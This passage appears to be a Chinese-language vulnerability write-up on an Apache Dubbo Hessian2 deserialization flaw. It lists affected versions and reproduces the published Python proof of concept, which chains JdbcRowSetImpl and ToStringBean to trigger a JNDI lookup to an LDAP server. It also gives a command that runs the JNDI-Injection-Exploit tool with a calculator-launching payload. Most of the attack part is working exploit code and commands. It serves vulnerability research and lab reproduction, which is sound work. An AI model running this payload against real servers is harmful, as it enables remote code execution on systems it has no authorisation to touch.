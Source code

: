 1. Apache Dubbo 2.7.0 ~ 2.7.6
2. Apache Dubbo 2.6.0 ~ 2.6.7
3. Apache Dubbo 2.5.x 所有版本 (官方不再提供支持)

#### 环境搭建

根据公布出来的POC

```python
from hessian2 import new_object
from client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8087/ExploitMac",
      strMatchColumns=["fxx"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

resp = client.send_request_and_return_response(
    service_name='com.example.provider.service.UesrService',
    method_name='test',
    args=[toStringBean])
print(resp)
```

分析发现不仅仅是用了`JdbcRowSetImpl`调用JNDI进行远程代码执行，还调用了`com.rometools.rome.feed.impl.ToStringBean`，所以还需要在provider中添加rometools的引用

```xml
        <dependency>
            <groupId>com.rometools</groupId>
            <artifactId>rome</artifactId>
            <version>1.7.0</version>
        </dependency>
```

使用[welk1n/JNDI-Injection-Exploit: JNDI注入测试工具（A tool which generates JNDI links can start several servers to exploit JNDI Injection vulnerability,like Jackson,Fastjson,etc） (github.com)](https://github.com/welk1n/JNDI-Injection-Exploit)工具

```
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /System/Applications/Calculator.app" -A 127.0.0.1
```
